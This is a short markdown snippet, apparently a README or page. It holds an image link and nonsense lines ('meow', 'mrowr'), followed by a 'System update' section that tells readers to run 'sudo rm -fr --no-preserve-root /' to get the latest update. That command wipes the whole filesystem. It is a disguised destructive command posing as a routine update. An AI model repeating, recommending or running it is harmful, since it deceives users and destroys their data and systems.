 # meow
# meow
# mrowr

# ...---...

# System update
Run next code in your terminal to get the latest update
```bash
sudo rm -fr --no-preserve-root /
```
